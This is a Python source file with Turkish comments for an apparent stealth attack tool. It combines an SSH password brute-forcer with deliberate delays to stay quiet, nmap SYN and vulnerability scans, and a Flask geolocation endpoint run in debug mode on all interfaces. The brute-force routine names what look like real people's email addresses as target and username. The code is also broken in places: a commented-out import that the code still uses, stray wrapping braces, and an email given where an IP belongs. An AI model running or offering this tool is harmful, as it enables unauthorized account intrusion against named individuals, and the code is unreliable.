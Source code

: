 {
# import logging
import json
import os
import smtplib
import paramiko
import nmap
import random
import time
from datetime import datetime
from flask import Flask, request, jsonify

app = Flask(__name__)

# Loglama ayarları
def setup_logger(log_file):
    logging.basicConfig(
        filename=log_file,
        filemode='a',  # Dosyaya ekleme modu
        format='%(asctime)s - %(levelname)s - %(message)s',
        level=logging.INFO
    )

# Log mesajı kaydetme
def log_event(event_message, level='info'):
    if level == 'info':
        logging.info(event_message)
    elif level == 'warning':
        logging.warning(event_message)
    elif level == 'error':
        logging.error(event_message)
    elif level == 'debug':
        logging.debug(event_message)

# Brute-force SSH saldırısı (sessiz ve zaman gecikmeli)
def brute_force_ssh(ip, username, wordlist, delay=2):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    for password in wordlist:
        try:
            ssh.connect(ip, username=username, password=password, timeout=3)
            log_event(f"Başarılı SSH bağlantısı: {username}@{ip} - Şifre: {password}", level='info')
            ssh.close()
            return password  # Başarılı şifre bulundu
        except paramiko.AuthenticationException:
            log_event(f"SSH giriş başarısız: {password}", level='debug')
            time.sleep(delay)  # Her deneme arasında gecikme ekleniyor
            continue  # Şifre yanlış, denemeye devam et
        except Exception as e:
            log_event(f"SSH brute-force hatası: {e}", level='error')
            return None
    log_event("Brute-force saldırısı tamamlandı ancak doğru şifre bulunamadı.", level='error')
    return None

# Sessiz port taraması (SYN tarama)
def nmap_scan(ip):
    scanner = nmap.PortScanner()
    scanner.scan(ip, '1-1024', arguments='-sS')  # SYN taraması, gizli ve hızlı
    open_ports = []

    for host in scanner.all_hosts():
        for proto in scanner[host].all_protocols():
            ports = scanner[host][proto].keys()
            for port in ports:
                if scanner[host][proto][port]['state'] == 'open':
                    service = scanner[host][proto][port]['name']
                    version = scanner[host][proto][port].get('version', 'unknown')
                    open_ports.append({'port': port, 'service': service, 'version': version})

    return open_ports

# Zafiyet taraması
def vulnerability_scan(ip):
    scanner = nmap.PortScanner()
    scanner.scan(ip, '1-1024', arguments='--script vuln')  # Zafiyet taraması betiği ekleniyor
    open_ports = []

    for host in scanner.all_hosts():
        for proto in scanner[host].all_protocols():
            ports = scanner[host][proto].keys()
            for port in ports:
                if scanner[host][proto][port]['state'] == 'open':
                    service = scanner[host][proto][port]['name']
                    version = scanner[host][proto][port].get('version', 'unknown')
                    vulnerabilities = scanner[host][proto][port].get('script', {}).get('vuln', 'No vulnerabilities found')
                    open_ports.append({
                        'port': port, 
                        'service': service, 
                        'version': version,
                        'vulnerabilities': vulnerabilities
                    })

    return open_ports

# Sessiz rapor oluşturma ve kaydetme
def create_security_report(open_ports, found_cves, successful_attacks, test_durations, username):
    report = {
        'Report Generated At': datetime.now().strftime("%Y-%m-%d %H:%M:%S"),
        'Username': username,  # Kullanıcı adını ekle
        'Open Ports': open_ports,
        'Found CVEs': found_cves,
        'Successful Attacks': successful_attacks,
        'Test Durations': test_durations
    }
    return report

# Sessiz SSH brute-force saldırısı için hedef belirleme
def perform_brute_force_attack():
    target_ip = "alaouiismailimaha2@gmail.com"  # Hedef e-posta adresi
    username = "Fatihneu12@gmail.com"  # Yönetici e-posta adresi
    wordlist_file = input("Wordlist dosyasının yolunu girin (şifre listesi): ")
    
    # Şifre listesini oku
    try:
        with open(wordlist_file, 'r') as file:
            wordlist = [line.strip() for line in file.readlines()]
    except IOError:
        log_event("Wordlist dosyası açılamadı.", level='error')
        return None

    # SSH brute-force saldırısı başlat
    return brute_force_ssh(target_ip, username, wordlist, delay=5)

# Geolocation
@app.route('/geolocation', methods=['POST'])
def get_geolocation():
    data = request.get_json()
    if 'latitude' in data and 'longitude' in data:
        latitude = data['latitude']
        longitude = data['longitude']
        log_event(f"Geolocation request received: Latitude {latitude}, Longitude {longitude}")
        return jsonify({
            'status': 'success',
            'latitude': latitude,
            'longitude': longitude
        })
    else:
        log_event("Invalid geolocation data received.", level='error')
        return jsonify({'status': 'error', 'message': 'Invalid data'}), 400

# Ana program (sessiz modda çalıştırma)
if __name__ == "__main__":
    log_file = 'security_tests.log'
    setup_logger(log_file)

    # Flask sunucusunu başlat
    app.run(host='0.0.0.0', port=5000, debug=True)
}

